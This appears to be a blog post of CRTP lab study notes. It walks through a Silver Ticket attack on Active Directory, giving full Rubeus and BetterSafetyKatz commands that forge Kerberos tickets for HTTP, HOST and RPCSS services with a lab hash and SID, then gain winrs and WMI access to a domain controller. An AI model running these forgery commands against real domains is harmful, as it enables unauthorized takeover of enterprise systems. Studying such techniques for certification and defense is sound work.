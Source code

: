```yaml
---
title: Active Directory (AD) | Silver Ticket Attack - Command Execution via HTTP and WMI
date: 2024-07-03 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Introduction**
A Silver Ticket attack allows attackers to gain unauthorized access to specific services in an Active Directory environment by forging service tickets (TGS). Unlike the Golden Ticket attack, which compromises the entire domain, a Silver Ticket attack uses the hash of a service account instead of the KDC (krbtgt) hash, making it stealthier and harder to detect.

## **Importance of Silver Tickets**
Silver Tickets enable attackers to access particular services like HTTP and WMI without alerting the domain controller. This can bypass security measures, making it a crucial attack method to understand and defend against in maintaining Active Directory security.

## **Understanding HTTP and WMI in This Context**
- **HTTP (Hypertext Transfer Protocol):** In the context of a Silver Ticket attack, the HTTP service on a domain controller may be targeted to execute commands or retrieve information via web interfaces or applications running on the server. By forging a ticket for the HTTP service, an attacker can gain access to web-based management consoles or services hosted on the domain controller.

- **WMI (Windows Management Instrumentation):** WMI is a set of specifications from Microsoft for consolidating the management of devices and applications in a network from Windows computing systems. By targeting WMI, an attacker can execute commands remotely, gather information about the system, and manage various aspects of the operating system.

## **Step 1: Creating a Silver Ticket for HTTP Service**
The first step involves creating a Silver Ticket for the HTTP service on the domain controller. This requires the hash of the machine account for the domain controller (dcorp-dc$).

### **Generate the Silver Ticket:**
Using Rubeus, we generate a Silver Ticket with the following command. This command specifies the service (HTTP), domain, target machine, RC4 hash, SID, and user details.

```bash
C:\AD\Tools>Loader.exe -path C:\AD\Tools\Rubeus.exe -args "silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:c6a60b67476b36ad7838d7875c33c2c3 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt"
```

### **Verify the Service Ticket:**
Verify the generated ticket with Rubeus. Successful verification will show details such as the server name and client name.

```bash
C:\AD\Tools>Loader.exe -path C:\AD\Tools\Rubeus.exe -args "ptt"
```

### **Access the Domain Controller Using winrs:**
Use Windows Remote Shell (winrs) to access the domain controller:

```bash
C:\AD\Tools>winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd
```

## **Step 2: Creating a Silver Ticket for WMI Access**
For WMI access, we need Silver Tickets for both the HOST and RPCSS services.


### **Generate a Ticket for HOST Service:**
Use BetterSafetyKatz to create a Silver Ticket for the HOST service:

```bash
C:\AD\Tools>BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:c6a60b67476b36ad7838d7875c33c2c3 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

### **Generate a Ticket for RPCSS Service:**
Similarly, create a Silver Ticket for the RPCSS service:

```bash
C:\AD\Tools>BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:c6a60b67476b36ad7838d7875c33c2c3 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

### **Verify the Tickets:**
Check if the tickets are present using klist. You should see entries for both RPCSS and HOST services.

```bash
C:\Windows\system32>klist
```

### Execute WMI Commands:**
With the tickets in place, run WMI commands on the domain controller. The output will include details about the operating system, confirming our access.

```bash
PS C:\AD\Tools> Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```